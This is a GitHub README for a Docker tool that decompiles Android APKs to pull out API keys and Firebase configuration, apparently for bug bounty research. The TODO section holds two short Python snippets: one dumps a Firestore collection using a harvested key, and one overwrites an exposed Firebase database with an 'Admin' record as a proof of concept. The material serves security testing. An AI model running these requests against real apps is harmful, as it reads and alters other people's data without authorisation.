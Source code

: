 # APK Playbook

A Docker-based tool for analyzing Android APK files and extracting sensitive information such as API keys, Firebase configurations, and other security-related data.

## Setup

NOTE! The Email and password used to register an account in the target firebase is NOT set, I reccommend editing it before running:
`/tools/agneyastra_py/src/templates/config.yaml`

1. Place your APK file in the `/app` directory
2. Build the Docker image:
   ```bash
   make build
   ```
3. Run the container:
   ```bash
   make run
   ```
4. If you want to run tools manually:
   ```bash
   make run-bash
   ```

All reports will be outputted to /output, I roccommend looking at the agneyastra reports.

## What it does

This tool will automatically:
- Decompile the APK file
- Extract GCP API keys, Firebase configurations, and other sensitive data
- Check Firebase Remote Config accessibility
- Generate detailed logs and reports

## Output

All extracted data and logs will be available in the `/app` directory within the container.

# Credit where credit is due
Agneyastra was pulled from https://github.com/JA3G3R/agneyastra and rewritten to python.

# TODO
Add firebase project dump
```python
import requests
api_key = 'AI**********************************zP8'
project_id = 'FIRESTORE_DB-PROJECT_NAME'
collection = 'COLLECTION_NAME'
url = f'https://firestore.googleapis.com/v1/projects/{project_id}/databases/(default)/documents/{collection}?key={api_key}'


response = requests.get(url)

if response.status_code == 200:
    print("Collection dump:", response.json())
else:
    print(f"Failed to retrieve data: {response.status_code} - {response.text}")
```

Add firebase .json overwrite
```python
import requests

## THIS IS AN EXAMPLE OF JSON DATA TO UPLOAD TO THE DATABASE. CHANGE AS YOU SEE FIT
data = {"Mexploit": "BugBountyHunter", "Email": "<EMAIL>", "Role": "Admin", "Message" : "this is a PoC for your misconfigured firebase instance. A misconfigured instance could allow attackers to read, write, and manage a firebase db for their own nefarious actions. Please secure this immediately."}

## HERE YOU WILL ENTER THE URL OF THE EXPOSED DB WITH THE ./json APPENDED
response = requests.put('<URL OF EXPOSED FIREBASEDB>',json=data)

## IF SUCCESSFUL YOU WILL GET A MESSAGE TO TERMINAL
print("Executed the PoC Successfully")
```

